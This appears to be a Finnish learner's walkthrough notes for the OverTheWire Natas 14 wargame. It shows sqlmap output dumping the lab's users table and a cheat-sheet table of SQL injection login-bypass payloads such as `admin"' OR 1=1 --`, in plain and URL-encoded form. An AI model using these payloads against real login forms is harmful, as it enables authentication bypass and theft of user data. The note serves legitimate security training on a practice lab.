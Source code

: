 ```
[12:51:08] [INFO] table 'natas14.users' dumped to CSV file '/home/kali/.local/share/sqlmap/output/natas14.natas.labs.overthewire.org/dump/natas14/users.csv'                                                                                                              
[12:51:08] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/natas14.natas.labs.overthewire.org'
[12:51:08] [WARNING] your sqlmap version is outdated

[*] ending @ 12:51:08 /2025-05-17/
```


---

# SQL injektio mini huomio - START HERE 

pieni huomiona tämä osuus - tämä taulukko toimii kuin pien lunttilappuna, usein kirjauttumisessa voi olla monen tyyppistä et pelkä käyttäjäjänimeä. Tätä taulukkon mukaista prosessia kutsutaan **SQL - injektion manipulointia, ei salasanojen arvaamista**  kuitenkin yritetään **muokata taustalla olevaa SQL-kyselyä esim. just syöttämällä noita erikoismerkkiä `"` tai `'` tai yhdistelmiä just `"' OR 1=1 --`. Tästä just ideana **testata onko oleva tietokanta haavoittuvainen syötteiden käsittylssä**. 

Kun palvelin EI käsittele syötettä turvallisesti, hyökkääjä voi ohittaa autentikoinnin tai käskeä tietokantaa tekemään jotain muuta (kuten palauttamaan kaikki käyttäjät).



| Kenttä     | Syöte / URL                      | Arvo (selkokielisenä)                 | Ero ja merkitys                                                                 |
|------------|----------------------------------|----------------------------------------|----------------------------------------------------------------------------------|
| username   | Lomakesyöte                      | `admin"' OR 1=1 --`                    | Täysin identtinen injektio URL- ja lomakeversioissa.                            |
| password   | Lomakesyöte                      | `password' OR 1=1 --"`                 | Alkuosa (`password`) eroaa, mutta injektio toimii jos SQL ei hajoa.             |
| username   | URL (enkoodattu)                 | `admin"' OR 1=1 --`                    | Sama injektio kuin lomakkeessa, mutta URL-muodossa enkoodattuna.                |
| password   | URL (enkoodattu)                 | `admin' OR 1=1 --"`                    | Eroaa lomakeversiosta alkuosan (`admin`) takia – voi vaikuttaa SQL-syntaksiin.  |
| **KOKO URL** | `/index.php?...`                 | `username=admin"' OR 1=1 --`<br>`password=admin' OR 1=1 --"` | Käytännössä toimii kuten lomakesyöte, mutta erona on alkuarvon ero `password`-kentässä. |
| username   | `username=admin%22%20OR%201%3D1%20--` | `admin" OR 1=1 --`                    | URL-enkoodattu versio: `%22` vastaa `"` ja `%20` vastaa välilyöntiä |


SQL injektiossa idea on just nämä erikoismerkit kuten `"` , `'` , `"'`, `+` ja `--`. Huomoina toi keskimmäinen just pätee yhdistettynä, ja niiden yhdistelmeitä testeissä ja se pätee sekä lomakkeessa että URL:issa. 

- Tässä tapauksessa **"** (`%22`) sulkee `username`-kentän alkuperäisen arvon ja sen jälkeen **injektio toimii**: `OR 1=1 --` on SQL-lauseke, joka on tosi ja estää salasanan tarkistuksen.


## Harjoitusta kohti mestariksi

Alkuum meneekin `' OR 1=1 --` - koska se on perusideana mikä lähtee harjoittelusta. Sitä näkee nopeasti, reagoi järjestelmän jollakin tavalla, että onnistuuko kirjautuminen vai tuleeko virhettä, jäätyykö pyyntö ja tms. Tämä periaatteessa toimii kuin ensimmäinen _pingi_ eli testaa onko järjestelmässä injektiota. 
